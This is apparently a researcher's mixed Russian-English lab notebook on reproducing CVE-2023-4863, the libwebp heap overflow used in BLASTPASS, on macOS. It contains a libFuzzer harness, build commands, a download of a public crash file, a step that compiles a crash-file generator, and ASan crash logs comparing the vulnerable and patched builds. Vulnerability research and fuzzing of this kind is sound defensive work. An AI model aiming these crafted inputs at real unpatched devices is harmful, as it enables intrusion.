

libwebp на мак или айос очень распрастранено ошибки в е=генераций изображений имейдж айо 
1.3.1 -> 1.3.2
андроид и айос 
спрятан внутри системного имейдж айо фреймворк 
ошибка начинает когда в сандбоксе аймеседж распаковывается WebP с ошибкой heap buffer overflow cve-2023-4863, cve-2023-41064 blastbass


/System/Library/Freamwork/ImageIO.Freamwork/libwebp ~ примерно

BlastDoor (imessage) - это важный, но не единственный элемент защиты iMessage. Apple постоянно работает над его улучшением, однако исследователи и злоумышленники продолжают находить новые способы обхода (например, CVE-2025-24085). Это подчеркивает необходимость своевременного обновления iOS и macOS.



CGImage не существует в вакууме. Он тесно связан с фреймворком ImageIO, который отвечает за чтение и запись изображений в различных форматах, включая WebP.

Вот как это работает в контексте ранее обсуждаемых уязвимостей BLASTPASS:

Когда приложение (например, iMessage) получает изображение, оно может использовать ImageIO для его декодирования.

ImageIO определяет формат (в нашем случае WebP) и вызывает соответствующий декодер.

Декодер, часто основанный на библиотеке libwebp, создаёт CGImage как финальный результат, содержащий распакованные пиксельные данные.

Именно в процессе этого распаковывания и создания CGImage и происходили уязвимости CVE-2023-4863 и CVE-2023-41064. Ошибка в libwebp (версии 1.3.1) позволяла злоумышленнику через специально сформированное изображение вызвать переполнение буфера и выполнить свой код в системе.

Таким образом, хотя сама по себе CGImage не является уязвимой, она является конечной точкой, где обрабатываются данные из потенциально опасного источника, что делает её частью вектора атаки.


----
To install **zlib** (version 1.3.1 or later) on macOS with an Apple Silicon chip (M1, M2, M3, M4, etc.), you can either use a package manager like Homebrew (recommended) or compile it manually from the source.

If you want to download and build version 1.3.1 manually from [madler/zlib releases](https://github.com/madler/zlib/releases):

1. **Download and extract the source code** (via curl or by downloading the tar.gz from GitHub):
```bash
curl -LO https://github.com/madler/zlib/releases/download/v1.3.1/zlib-1.3.1.tar.gz
tar -xzf zlib-1.3.1.tar.gz
cd zlib-1.3.1

```


2. **Configure the build**:
macOS Apple Silicon uses the `arm64` architecture. The standard `./configure` script automatically targets the host architecture:
```bash
./configure

```


3. **Build and Test**:
```bash
make
make test

```


4. **Install** (choose a local path or system path, usually `/usr/local` requires `sudo`):
```bash
sudo make install

```


*(By default, this installs headers into `/usr/local/include` and libraries into `/usr/local/lib`, which your compiler will automatically detect on Apple Silicon).*


`вся суть в проблеме дерево хафмана и его алгаритме`

---

`zlib/examples/enough.c ~ расчет `

---

# Lab Guide: Fuzzing `libwebp` (CVE-2023-4863) on macOS Apple Silicon

## 1. Theoretical Foundations

* **Target Library:** `libwebp` (`v1.3.1` - vulnerable, `v1.3.2` - patched).
* **Vulnerability (CVE-2023-4863):** heap buffer overflow in lossless WebP
  (**VP8L**) inside `BuildHuffmanTable()` - the in-the-wild Chrome/Apple 0-day.
* **Bug Mechanics:** decoding a malformed VP8L stream with corrupted Huffman code
  lengths makes `BuildHuffmanTable()` (via `ReplicateValue()`) write second-level
  table entries past the allocated table в†’ out-of-bounds heap **write**. The code
  lives in `src/utils/huffman_utils.c` (reached from `src/dec/vp8l_dec.c`).
* **What it takes to trigger:** a **crafted VP8L input**. Blind fuzzing from a
  trivial seed does **not** find this (verified: ~1.29M runs in 120 s, no crash).
  Use a real WebP corpus, or a known PoC, to reach it (Section 6).

> **Where this runs.** All commands below run on the macOS host - the Apple
> Silicon box reachable at `ssh user@192.168.1.10`, verified on **macOS 13.7.6
> (Ventura), arm64 (M1)**, Homebrew `clang 22.1.8`, CMake 4.x. The lab lives in
> `~/fuzz-webp-mac`.

---

## 2. Step 1: Environment Setup on Mac (M1–M4)

Apple's `/usr/bin/clang` has no libFuzzer runtime (`-fsanitize=fuzzer` fails at
link), so you must use **Homebrew LLVM**.

```bash
# Install Homebrew LLVM compiler and CMake
brew install llvm cmake

# Put Homebrew LLVM (and brew bin) first in this shell
export PATH="/opt/homebrew/opt/llvm/bin:/opt/homebrew/bin:$PATH"

# Verify Homebrew Clang is active
clang --version          # -> Homebrew clang version 22.x
cmake --version          # -> cmake 3.2x+ / 4.x
```

---

## 3. Step 2: Fetching `libwebp` Sources (1.3.1 & 1.3.2)

```bash
# Create lab workspace
mkdir -p ~/fuzz-webp-mac/{harness,corpus,findings}
cd ~/fuzz-webp-mac

# Download vulnerable version 1.3.1 and fixed version 1.3.2
curl -LO https://storage.googleapis.com/downloads.webmproject.org/releases/webp/libwebp-1.3.1.tar.gz
curl -LO https://storage.googleapis.com/downloads.webmproject.org/releases/webp/libwebp-1.3.2.tar.gz

tar -xzf libwebp-1.3.1.tar.gz
tar -xzf libwebp-1.3.2.tar.gz
```

> libwebp's `CMakeLists.txt` requires CMake ≥ 3.17, so CMake 4.x builds it without
> any policy shim (unlike the zlib lab).

---

## 4. Step 3: The C Harness (`harness/fuzz_webp.c`)

Use the `fuzz_webp.c` from this repo (copy it to `harness/fuzz_webp.c`). It drives
`WebPGetFeatures` в†’ `WebPDecodeRGBAInto` (the RGBA lossless decode path that
reaches `BuildHuffmanTable`), and keeps its entry point a **C symbol** via an
`extern "C"` guard so libFuzzer's runtime can find `_LLVMFuzzerTestOneInput`.

```c
/* harness/fuzz_webp.c - libFuzzer harness for libwebp CVE-2023-4863 */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stddef.h>
#include "webp/decode.h"

#ifdef __cplusplus
extern "C"
#endif
__attribute__((noinline))
int LLVMFuzzerTestOneInput(const uint8_t *data, size_t size) {
  if (size < 12 || size > 1024 * 1024) return 0;

  WebPBitstreamFeatures features;
  if (WebPGetFeatures(data, size, &features) != VP8_STATUS_OK) return 0;

  if (features.width <= 0 || features.height <= 0 ||
      features.width > 1024 || features.height > 1024) return 0;

  size_t out_buf_size = (size_t)features.width * features.height * 4;
  uint8_t *out_buf = (uint8_t *)malloc(out_buf_size);
  if (!out_buf) return 0;

  WebPDecodeRGBAInto(data, size, out_buf, out_buf_size, features.width * 4);

  free(out_buf);
  return 0;
}
```

---

## 5. Step 4: Building Vulnerable & Patched Targets

**Fix - link the harness with `clang`, not `clang++`.** `fuzz_webp.c` is C;
compiling it as C++ mangles `LLVMFuzzerTestOneInput` and libFuzzer's `main` then
fails to link (`Undefined symbols: "_LLVMFuzzerTestOneInput"`). Build the static
`libwebp.a` normally, but link the harness with **`clang`**.

```bash
export PATH="/opt/homebrew/opt/llvm/bin:/opt/homebrew/bin:$PATH"

# =========================================================
# 1. BUILD VULNERABLE TARGET (v1.3.1)
# =========================================================
cd ~/fuzz-webp-mac/libwebp-1.3.1
rm -rf build && mkdir -p build && cd build

CC=clang CXX=clang++ cmake .. \
  -DCMAKE_C_FLAGS="-fsanitize=fuzzer-no-link,address -g -O1" \
  -DBUILD_SHARED_LIBS=OFF \
  -DWEBP_BUILD_WEBP_MUX=OFF \
  -DWEBP_BUILD_GIF2WEBP=OFF
make -j$(sysctl -n hw.ncpu)
cd ~/fuzz-webp-mac

# Link harness with vulnerable static libwebp.a  (clang, NOT clang++)
clang -g -O1 -fsanitize=fuzzer,address \
  -I libwebp-1.3.1/src \
  harness/fuzz_webp.c \
  libwebp-1.3.1/build/libwebp.a \
  -o fuzz_webp_vulnerable


# =========================================================
# 2. BUILD PATCHED TARGET (v1.3.2)
# =========================================================
cd ~/fuzz-webp-mac/libwebp-1.3.2
rm -rf build && mkdir -p build && cd build

CC=clang CXX=clang++ cmake .. \
  -DCMAKE_C_FLAGS="-fsanitize=fuzzer-no-link,address -g -O1" \
  -DBUILD_SHARED_LIBS=OFF \
  -DWEBP_BUILD_WEBP_MUX=OFF \
  -DWEBP_BUILD_GIF2WEBP=OFF
make -j$(sysctl -n hw.ncpu)
cd ~/fuzz-webp-mac

# Link harness with patched static libwebp.a  (clang, NOT clang++)
clang -g -O1 -fsanitize=fuzzer,address \
  -I libwebp-1.3.2/src \
  harness/fuzz_webp.c \
  libwebp-1.3.2/build/libwebp.a \
  -o fuzz_webp_patched
```

---

## 6. Step 5: Reproducing the Crash

CVE-2023-4863 needs a **crafted VP8L stream**; you cannot expect libFuzzer to
stumble onto the exact Huffman-length corruption from a near-empty seed (verified:
~1.29M runs / 120 s with the trivial seed below produced **no** crash). There are
two honest ways to reach it:

### (a) Deterministic reproduction with a known PoC (recommended)

Use a crafted reproducer (e.g. the public `bad.webp` from the CVE-2023-4863
write-up) and feed it straight to the target:

```bash
cd ~/fuzz-webp-mac
curl -sL -o bad.webp \
  https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/bad.webp

MallocNanoZone=0 ./fuzz_webp_vulnerable bad.webp
```

### (b) Fuzzing toward it

Fuzzing can rediscover it, but only with a **real WebP corpus** to mutate from
(e.g. `libwebp-1.3.1/tests/fuzzer/` inputs or the oss-fuzz webp corpus) - not the
placeholder header below. The placeholder is kept only so the corpus dir is
non-empty:

```bash
mkdir -p corpus findings
python3 -c '
import struct
header = b"RIFF" + struct.pack("<I", 12) + b"WEBPVP8L" + struct.pack("<I", 4) + b"\x2f\x00\x00\x00"
open("corpus/seed.webp","wb").write(header)
'
MallocNanoZone=0 ./fuzz_webp_vulnerable -artifact_prefix=findings/ corpus/
```

### Expected Output (from the PoC)

```text
==NNN==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x...
WRITE of size 4 at 0x... thread T0
    #0 0x... in ReplicateValue        huffman_utils.c:59
    #1 0x... in BuildHuffmanTable     huffman_utils.c:194
    #2 0x... in VP8LBuildHuffmanTable huffman_utils.c:224
    #3 0x... in ReadHuffmanCode       vp8l_dec.c:348
    #4 0x... in ReadHuffmanCodes      vp8l_dec.c:475
    #5 0x... in DecodeImageStream     vp8l_dec.c:1448
    #6 0x... in VP8LDecodeHeader      vp8l_dec.c:1661
SUMMARY: AddressSanitizer: heap-buffer-overflow huffman_utils.c:59 in ReplicateValue
```

That is CVE-2023-4863: the over-long second-level Huffman table is written past
its allocation inside `BuildHuffmanTable` (`src/utils/huffman_utils.c`), reached
from the VP8L header decode in `src/dec/vp8l_dec.c`.

> `MallocNanoZone=0` just silences the benign macOS+ASan "nano zone abandoned"
> warning; the crash reproduces with or without it.

---

## 7. Step 6: Differential Testing (Confirming the Fix)

Replay the same crashing input against the patched build:

```bash
MallocNanoZone=0 ./fuzz_webp_vulnerable bad.webp   # -> ASan heap-buffer-overflow (1.3.1)
MallocNanoZone=0 ./fuzz_webp_patched    bad.webp   # -> "Executed bad.webp in 0 ms", clean (1.3.2)
```

Version `1.3.2` decodes the same input safely (the fix reworks the Huffman table
size accounting so the second-level tables can no longer overflow), confirming
**CVE-2023-4863** is resolved.

---

## 8. Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `Undefined symbols ... "_LLVMFuzzerTestOneInput"` | harness compiled as C++ (`clang++`) - name mangled | Link the harness with **`clang`** (Section 5); the `extern "C"` guard also covers it |
| `ld: file not found: ...libclang_rt.fuzzer_osx.a` | Apple `/usr/bin/clang` has no libFuzzer runtime | Use **brew** clang (Section 2) |
| Fuzzer runs for minutes, **never crashes** | needs a crafted VP8L input; a trivial seed can't reach it | Use the PoC (Section 6a) or a real WebP corpus (Section 6b) |
| macOS warning `malloc: nano zone abandoned` | benign macOS+ASan interaction | Prefix runs with `MallocNanoZone=0` |

---


### 📋 Таблица кодов Хаффмана

| Символ | Частота | Код (бинарный) | Длина кода (бит) |
|--------|---------|----------------|------------------|
| `а`    | 4       | `10`           | 2                |
| `м`    | 4       | `11`           | 2                |
| ` `    | 2       | `010`          | 3                |
| `р`    | 1       | `000`          | 3                |
| `у`    | 1       | `001`          | 3                |
| `ы`    | 1       | `0110`         | 4                |
| `л`    | 1       | `0111`         | 4                |


**Итоговая битовая строка (без пробелов):**  
`111011100101101100111100100001011001`

(Длина: 36 бит, что значительно меньше исходных 112 бит при кодировке ASCII.)

---

### 📊 Эффективность сжатия

| Параметр | Значение |
|----------|----------|
| Исходный размер (ASCII) | 14 симв. × 8 бит = **112 бит** |
| Сжатый размер (коды) | **36 бит** |
| Экономия | **~67.9%** |

---


### 📊 Описание диаграммы

На диаграмме представлена **структурная взаимосвязь компонентов Apple**, участвующих в обработке входящего WebP‑изображения в iMessage, а также показано место возникновения критических уязвимостей **CVE‑2023‑4863** и **CVE‑2023‑41064**, которые привели к атаке **BLASTPASS**.

**Основные блоки и связи:**

1. **Входящее сообщение** – iMessage получает WebP‑вложение.
2. **BlastDoor** – система безопасности Apple разделяет трафик по доверенности отправителя (контакты vs. неизвестные). Оба потока направляются в **ImageIO.framework**.
3. **ImageIO** вызывает библиотеку **libwebp** (динамический декодер) для распаковки формата.
4. **Внутреннее устройство WebP** – показаны этапы обратного декодирования (от контейнера до энтропийного кодирования с использованием деревьев Хаффмана). Именно на этапе построения дерева Хаффмана злоумышленник может внедрить некорректные данные.
5. **Уязвимость** – ошибка в функции `BuildHuffmanTable` библиотеки `libwebp` (версии ≤1.3.1) приводит к **heap buffer overflow**, что позволяет обойти **BlastDoor**.
6. **Эксплуатация** – обход защиты даёт возможность выполнить произвольный код и установить шпионское ПО **Pegasus** (атака BLASTPASS).
7. **Исправление** – в версии **libwebp 1.3.2** уязвимость устранена, и декодирование завершается безопасным созданием **CGImage**.

**Итог:** диаграмма наглядно связывает низкоуровневые механизмы сжатия (VP8, дерево Хаффмана) с системными компонентами безопасности и показывает точку, где происходит «прорыв» защиты.


------

````bash
asd@asds-Mac-mini fuzz-webp-mac % clang -g -O1 -fsanitize=fuzzer,address \
  -I libwebp-1.3.1/src \
  harness/craft.c \
  libwebp-1.3.1/build/libwebp.a \
  -o craft
harness/craft.c:5:10: fatal error: 'malloc.h' file not found
    5 | #include <malloc.h>
      |          ^~~~~~~~~~
1 error generated.
asd@asds-Mac-mini fuzz-webp-mac % nano harness/craft.c
````
````bash
asd@asds-Mac-mini fuzz-webp-mac % nano harness/craft.c
#comment the line #include <malloc.h>
asd@asds-Mac-mini fuzz-webp-mac % clang -g -O1 -fsanitize=fuzzer,address \
  -I libwebp-1.3.1/src \
  harness/craft.c \
  libwebp-1.3.1/build/libwebp.a \
  -o craft
asd@asds-Mac-mini fuzz-webp-mac % ls
bad.webp                        craft.dSYM                      fuzz_webp_patched.dSYM          harness                         libwebp-1.3.2
corpus                          findings                        fuzz_webp_vulnerable            libwebp-1.3.1                   libwebp-1.3.2.tar.gz
craft                           fuzz_webp_patched               fuzz_webp_vulnerable.dSYM       libwebp-1.3.1.tar.gz
asd@asds-Mac-mini fuzz-webp-mac % ./craft
USAGE: craft bad.webp%                                                                                                                                                                                           asd@asds-Mac-mini fuzz-webp-mac % ls
bad.webp                        craft.dSYM                      fuzz_webp_patched.dSYM          harness                         libwebp-1.3.2
corpus                          findings                        fuzz_webp_vulnerable            libwebp-1.3.1                   libwebp-1.3.2.tar.gz
craft                           fuzz_webp_patched               fuzz_webp_vulnerable.dSYM       libwebp-1.3.1.tar.gz
asd@asds-Mac-mini fuzz-webp-mac % ./craft bad1.webp
asd@asds-Mac-mini fuzz-webp-mac % ls
bad.webp                        craft                           fuzz_webp_patched               fuzz_webp_vulnerable.dSYM       libwebp-1.3.1.tar.gz
bad1.webp                       craft.dSYM                      fuzz_webp_patched.dSYM          harness                         libwebp-1.3.2
corpus                          findings                        fuzz_webp_vulnerable            libwebp-1.3.1                   libwebp-1.3.2.tar.gz
asd@asds-Mac-mini fuzz-webp-mac
````

````bash
MallocNanoZone=0 ./fuzz_webp_patched    bad1.webp
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 2533055076
INFO: Loaded 1 modules   (4922 inline 8-bit counters): 4922 [0x104fd07c8, 0x104fd1b02),
INFO: Loaded 1 PC tables (4922 PCs): 4922 [0x104fd1b08,0x104fe4ea8),
./fuzz_webp_patched: Running 1 inputs 1 time(s) each.
Running: bad1.webp
Executed bad1.webp in 0 ms
***
*** NOTE: fuzzing was not performed, you have only
***       executed the target code on a fixed set of inputs.
***
asd@asds-Mac-mini fuzz-webp-mac % MallocNanoZone=0 ./fuzz_webp_vulnerable    bad1.webp
INFO: Running with entropic power schedule (0xFF, 100).
INFO: Seed: 2596159996
INFO: Loaded 1 modules   (4898 inline 8-bit counters): 4898 [0x1024307c8, 0x102431aea),
INFO: Loaded 1 PC tables (4898 PCs): 4898 [0x102431af0,0x102444d10),
./fuzz_webp_vulnerable: Running 1 inputs 1 time(s) each.
Running: bad1.webp
=================================================================
==15842==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x626000002f28 at pc 0x0001023da2d8 bp 0x00016dac99f0 sp 0x00016dac99e8
WRITE of size 4 at 0x626000002f28 thread T0
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023da2d4"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023d7af8"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10236c604"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023607ec"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10236a094"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102370008"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10236f0fc"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102336c88"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023f9dcc"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023e5224"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023ea43c"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102418e58"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x188f77dfc"
    #0 0x0001023da2d4 in BuildHuffmanTable+0x2678 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000a62d4)
    #1 0x0001023d7af8 in VP8LBuildHuffmanTable+0x124 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000a3af8)
    #2 0x00010236c604 in ReadHuffmanCode+0x338 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x100038604)
    #3 0x0001023607ec in DecodeImageStream+0x1614 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10002c7ec)
    #4 0x00010236a094 in VP8LDecodeHeader+0x294 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x100036094)
    #5 0x000102370008 in DecodeInto+0x338 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10003c008)
    #6 0x00010236f0fc in WebPDecodeRGBAInto+0x174 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10003b0fc)
    #7 0x000102336c88 in LLVMFuzzerTestOneInput+0x2c8 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x100002c88)
    #8 0x0001023f9dcc in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long)+0x134 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000c5dcc)
    #9 0x0001023e5224 in fuzzer::RunOneTest(fuzzer::Fuzzer*, char const*, unsigned long)+0xe8 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000b1224)
    #10 0x0001023ea43c in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long))+0x1cfc (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000b643c)
    #11 0x000102418e58 in main+0x24 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000e4e58)
    #12 0x000188f77dfc in start+0x1b4c (/usr/lib/dyld:arm64e+0x1fdfc)

0x626000002f28 is located 0 bytes after 11816-byte region [0x626000000100,0x626000002f28)
allocated by thread T0 here:
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102c8d40c"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10235fd7c"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10236a094"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102370008"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x10236f0fc"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102336c88"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023f9dcc"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023e5224"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023ea43c"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x102418e58"
==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x188f77dfc"
    #0 0x000102c8d40c in malloc+0x70 (/opt/homebrew/Cellar/llvm/23.1.0/lib/clang/23/lib/darwin/libclang_rt.asan_osx_dynamic.dylib:arm64+0x5540c)
    #1 0x00010235fd7c in DecodeImageStream+0xba4 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10002bd7c)
    #2 0x00010236a094 in VP8LDecodeHeader+0x294 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x100036094)
    #3 0x000102370008 in DecodeInto+0x338 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10003c008)
    #4 0x00010236f0fc in WebPDecodeRGBAInto+0x174 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x10003b0fc)
    #5 0x000102336c88 in LLVMFuzzerTestOneInput+0x2c8 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x100002c88)
    #6 0x0001023f9dcc in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long)+0x134 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000c5dcc)
    #7 0x0001023e5224 in fuzzer::RunOneTest(fuzzer::Fuzzer*, char const*, unsigned long)+0xe8 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000b1224)
    #8 0x0001023ea43c in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long))+0x1cfc (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000b643c)
    #9 0x000102418e58 in main+0x24 (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000e4e58)
    #10 0x000188f77dfc in start+0x1b4c (/usr/lib/dyld:arm64e+0x1fdfc)

==15842==WARNING: Can't read from symbolizer at fd 3
==15842==WARNING: atos failed to symbolize address "0x1023da2d4"
SUMMARY: AddressSanitizer: heap-buffer-overflow (/Users/asd/fuzz-webp-mac/fuzz_webp_vulnerable:arm64+0x1000a62d4) in BuildHuffmanTable+0x2678
Shadow bytes around the buggy address:
  0x626000002c80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x626000002f00: 00 00 00 00 00[fa]fa fa fa fa fa fa fa fa fa fa
  0x626000002f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003000: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==15842==ABORTING
zsh: abort      MallocNanoZone=0 ./fuzz_webp_vulnerable bad1.webp
````
